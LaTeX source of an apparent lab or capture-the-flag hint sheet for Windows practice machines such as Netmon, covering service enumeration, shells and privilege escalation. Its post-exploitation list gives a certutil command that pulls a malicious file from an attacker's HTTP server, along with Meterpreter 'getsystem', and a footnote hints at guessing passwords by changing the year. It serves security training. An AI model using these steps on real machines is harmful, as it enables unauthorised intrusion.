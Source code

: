 \documentclass[a4paper,11pt]{article}
\renewcommand{\tt}[2][tt]{\textcolor{#1}{\ttfamily #2}}%
\begin{document}
{\bfseries HTTP (Port 80)}:

Nothing too special here. Go through the usual routine and you should be able to quickly pop a shell. If a metasploit module is too simple, there are a few manual downloads that can provide a similar result.
\\
\\
Take this opportunity to see if you remember the steps to priv-esc on Windows.
\\
\\
{\bfseries Post-exploitation}

\begin{itemize}
    \item (Meterpreter) \tt{background}: Store the current shell session in the background.
    \item (Windows CMD/Powershell) \tt{certutil -urlcache -f <local HTTP server>/<malicious file> <destination filename>}
    \item (Meterpreter) \tt{getsystem}: Attempt very simple priv esc methods. Usually not too successful, but may work on outdated machines and their services.
\end{itemize}

\begin{center}
{\bfseries Netmon}
\end{center}

{\bfseries FTP (Port 21)}:

\textit{Finally}, a little more action. See if you can recall how to enumerate FTP from previous machines! 
\\
\\
Hint: Just like in Bash, FTP can also show hidden files with \tt{ls -la}. Don't give up if a directory isn't there with just \tt{ls}!
Also, don't forget to download files with \tt{get <FILE>}.
\\
\\
{\bfseries HTTP (Port 80)}:

What can you access through the web service? Are there any default credentials? Make sure to enumerate the service version as well. Also... is the HTTP service connected to FTP in any way? 
\\
\\
Maybe there's useful credentials stored somewhere by the HTTP service... don't be afraid to use a search engine and read some documentation. FTP is your friend here\footnote[2]{Found a promising credential that didn't work? Try changing it slightly, possibly by modifying the year...}.
\\
\\
{\bfseries SMB-related ports (135, 139, 445)}:
\end{document}
